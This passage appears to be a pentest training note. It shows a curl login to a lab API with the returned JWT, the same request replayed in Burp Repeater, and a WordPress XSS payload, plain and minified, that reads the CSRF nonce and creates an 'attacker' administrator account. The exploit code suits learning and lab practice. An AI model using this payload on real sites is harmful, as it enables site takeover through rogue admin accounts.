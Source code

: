     ```
    * No error recieved, reattempt login with new password and curl 
    ```shell
    curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
    {"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
    ```
7. All curl attempts are easier done in **Burp**
    * Open Burp, **Repeater** tab, create a new empty request.
    ```shell
    POST /users/v1/login HTTP/1.1
    Host: 192.168.50.16:5002
    Content-Type: application/json

    {
        "password": "pwned",
        "username":"admin"
    }
    ```
    * Click **Send** button, and verify incoming response on right pane
	* In Burp **Target** tab and then **Site Map**, we can retrieve entire map of paths we've been testing

	* JavaScript JS example `(<script>alert(42)</script>)`
```javascript
function multiplyValues(x,y) {
  return x * y;
}
 
let a = multiplyValues(3, 5)
console.log(a)
```
## XSS Priv ESC
* Steps to exploit our found XSS and to gain admin access
1. Gather the nonce, the randomness that prevents CSRF
2. craft the main function responsible for creating the new admin user.

```javascript
// gather nonce
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];  // function section to create new admin user
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);  
```
*  above got turned into 
```javascript
var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);
```
